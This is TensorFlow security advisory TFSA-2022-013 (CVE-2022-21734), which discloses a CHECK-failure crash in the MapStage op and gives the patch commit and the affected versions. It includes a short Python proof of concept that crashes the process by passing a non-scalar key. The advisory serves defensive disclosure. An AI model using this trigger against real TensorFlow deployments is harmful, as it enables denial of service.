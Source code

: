 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-013.md
## TFSA-2022-013: `CHECK`-failures in `MapStage`

### CVE Number
CVE-2022-21734

### Impact
The [implementation of `MapStage`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/map_stage_op.cc#L519-L550) is vulnerable a `CHECK`-fail if the key tensor is not a scalar:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.MapStage(
    key = tf.constant(value=[4], shape= (1,2), dtype=tf.int64),
    indices = np.array([[6]]),
    values = np.array([-60]),
    dtypes = [tf.int64], capacity=0, memory_limit=0,
    container='', shared_name='', name=None
)
```

### Patches
We have patched the issue in GitHub commit [f57315566d7094f322b784947093406c2aea0d7d](https://github.com/tensorflow/tensorflow/commit/f57315566d7094f322b784947093406c2aea0d7d).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
